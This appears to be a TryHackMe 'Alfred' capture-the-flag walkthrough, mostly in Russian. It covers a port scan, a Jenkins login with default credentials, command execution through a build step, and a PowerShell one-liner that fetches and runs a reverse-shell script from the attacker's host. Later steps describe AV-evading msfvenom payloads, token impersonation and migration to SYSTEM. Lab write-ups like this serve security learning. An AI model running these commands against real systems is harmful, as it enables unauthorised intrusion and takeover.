 # TryHackMe-Alfred


## Rustscan

```bash                                                                                                                      
PORT     STATE SERVICE    REASON          VERSION   
80/tcp   open  http       syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:                                                    
|   Supported Methods: OPTIONS TRACE GET HEAD POST                        
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5      
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  tcpwrapped syn-ack ttl 127  
8080/tcp open  http       syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT        
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1     
| http-robots.txt: 1 disallowed entry                                     
|_/                                                                       
|_http-server-header: Jetty(9.4.z-SNAPSHOT)                               
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows                  
```

## PORT 80 (HTTP)

<img src="https://imgur.com/OzQMPUD.png"/>

Здесь мы не видим ничего интересного, поэтому давайте перейдем к другому http-порту

## PORT 8080 (HTTP)

<img src="https://imgur.com/aXHhYWT.png"/>

Мы видим портал входа в систему jenkins, поэтому давайте попробуем использовать учетные данные по умолчанию

`admin:password`

<img src="https://imgur.com/hrO4m40.png"/>

И это не сработало, давайте попробуем admin:admin

<img src="https://imgur.com/aFModUR.png"/>


Это сработало там, где мы находимся, теперь нам нужно найти, где мы можем выполнять команды, чтобы получить обратную оболочку на целевой машине

Наведите курсор мыши на project, и вы увидите выпадающее меню

 <img src="https://i.imgur.com/15CMp1p.png"/>
 
У Вас будут такие варианты, как "Changes", "Workspace", "Build Now", "Delete Project"," Configure" и "Rename". Выберем `Configure`:

<img src="https://imgur.com/msvm69Y.png"/>

Переключимся на `Build Environment Tab`:

<img src="https://i.imgur.com/yUPIbcb.png"/>

Здесь Вы можете видеть, что есть команда, написанная как  whoami, так что давайте нажмем "Применить" и сохранимся:

<img src="https://i.imgur.com/eXEBFF6.png"/>

Нажмем на `#2`, затем на `Console Output`

<img src="https://i.imgur.com/H0Bx0xH.png"/>

<img src="https://imgur.com/0S5GrCG.png"/>

И Вы можете видеть, какую бы команду мы там ни вводили, она покажет результат, так что теперь все, что мы можем сделать, это разместить сценарий обратной оболочки powershell, загрузить его с помощью powershell и выполнить функцию в сценарии, чтобы получить оболочку:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

Запустите свой http-сервер python3

<img src="https://imgur.com/Ffh7FPk.png"/>

И наша команда будет выглядеть так: запустите прослушиватель netcat:

<img src="https://imgur.com/L7kRLea.png"/>

<img src="https://imgur.com/GGcjVVU.png"/>

Теперь нажмите `Build Now`, и это задание будет запущено, и Вы получите оболочку:

<img src="https://imgur.com/2LThZZr.png"/>

Сгенерируйте полезную нагрузку msfvenom с кодировщиками для обхода AV.
Разместите ее на своем локальном компьютере и загрузите, повторив тот же метод:


<img src="https://imgur.com/2px77nI.png"/>

Настройте свой прослушиватель metasploit

<img src="https://imgur.com/IKY1jka.png"/>

<img src="https://imgur.com/G6SR5wL.png"/>

<img src="https://i.imgur.com/uhZl5vx.png"/>

Execute the payload and you'll see a meterpreter session will be popped

<img src="https://i.imgur.com/YF8AsSf.png"/>

Running the command `getprivs` we can see what privileges we have on the machine

<img src="https://i.imgur.com/zaqoz9K.png"/>

Here we can escalate our privleges through `SeImpersonatePrivilege`

Run the command `load icognito` through this module we can impersonate tokens

<img src="https://imgur.com/IbKIzYL.png"/>

<img src="https://imgur.com/macZDV5.png"/>

<img src="https://i.imgur.com/enPc6EW.png"/>

<img src="https://imgur.com/iE8Xsw7.png"/>

<img src="https://imgur.com/Ivy4Yaa.png"/>

Now even though we have SYSTEM on the machine but still we won't be able to access system files as it uses the primary token of the process and not the impersonated token so we need to migrate to a process running as SYSTEM which is `services.exe`

<img src="https://i.imgur.com/ltPg2LG.png"/>

<img src="https://imgur.com/3P3tLr5.png"/>

<img src="https://imgur.com/h1cTVks.png"/>
